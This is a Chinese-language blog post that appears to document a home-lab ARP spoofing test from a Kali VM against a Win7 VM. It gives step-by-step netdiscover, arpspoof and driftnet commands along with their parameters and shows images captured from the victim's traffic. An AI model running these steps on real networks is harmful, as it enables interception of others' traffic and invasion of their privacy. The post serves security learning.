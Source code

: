 ```yaml
---
title: 内网渗透：记一次局域网arp劫持测试
author: Kolin Huang
date: 2020-08-25 20:40:00 +0800
categories: [Blogging, kali内网渗透]
tags: [security]
comments: true
math: true
image: /HYCBlog/assets/img/security/security_cover.jpg
---
```




攻击前准备：

1. 一台Kali虚拟机作为attacker

2. 一台win7虚拟机作为victim

3. win7虚拟机开桥接模式，模拟以太网连接。

4. 用到的主要命令：

   ```sh
   arpspoof
   driftnet
   ```



## Step1：扫描局域网内主机

```sh
netdiscover -r 192.168.199.0/24 #扫描范围
```



![security_netdiscover](/HYCBlog/assets/img/security/security_netdiscover.png)

观察结果，推断出网关IP为`192.168.199.1`，目标主机地址为`192.168.199.169`。具体如何推断出目标主机的IP，可以从电脑型号以及当前的活跃情况推断。其实大多数attacker不会在乎自己攻击的是哪个特定主机，会在能力范围内把所有主机攻瘫。



## Step2：arp欺骗

```sh
arpspoof -i eth0 -t 192.168.199.1(网关) 192.168.199.169(目标主机)
```

在运行arpspoof之前，需要执行以下安装，否则会报`command not found`

```sh
apt-get install dsniff
```

![security_arpspoof](/HYCBlog/assets/img/security/security_arpspoof.png)

出现上述界面代表劫持成功。



## Step3：测试结果

在win7主机上通过Internet查看图片，利用driftnet工具将流经kali虚拟机的图片抓取，并显示在kali上。

```sh
driftnet -t eth0
```

![security_driftnet](/HYCBlog/assets/img/security/security_driftnet.png)

抓取成功。



至此，win7已被kali实现arp劫持。

Arpspoof是一个非常好的ARP欺骗的源代码程序。它的运行不会影响整个网络的通信，该工具通过替换传输中的数据从而达到对目标的欺骗。

```markdown
主要参数
-i，--interface要使用的网络接口，作为参数给出。 如果不使用此选项，则该接口默认为第一个正在运行的非环回接口。
-r，--repeat以参数指定的秒数为单位连续重新发送数据包。 延迟为零表示仅发送一个数据包。
-a，--attacker-ip选择另一台计算机（运行该程序的计算机除外）作为要伪装的计算机。
-g，--gateway-ip欺骗默认网关以外的IP（作为参数）。
-v，--verbose打印有关所涉及机器的额外信息。
```



Driftnet工具：Driftnet监视网络流量，抓取网络流量中的JPEG和GIF图像。这侵犯了人们的隐私，无论何时何地我们都不能这么做。除此之外，它还可以从网络中提取MPEG音频数据。

```markdown
语法： driftnet   [options]   [filter code]
主要参数：
 -b               捕获到新的图片时发出嘟嘟声
-i  interface     选择监听接口
-f  file   读取一个指定pcap数据包中的图片
-p  不让所监听的接口使用混杂模式
-a  后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
-m number 指定保存图片数的数目
-d directory  指定保存图片的路径
-x prefix  指定保存图片的前缀名
使用举例：
1.实时监听： driftnet -i wlan0
2.读取一个指定pcap数据包中的图片： driftnet -f /home/linger/backup/ap.pcapng -a -d /root/drifnet/
```



参考：

[arpspoof](https://github.com/smikims/arpspoof)

[安全工具——Driftnet与ARP中毒的结合应用](https://xz.aliyun.com/t/4001)

[图片捕获工具driftnet](https://www.cnblogs.com/lingerhk/p/4065956.html)

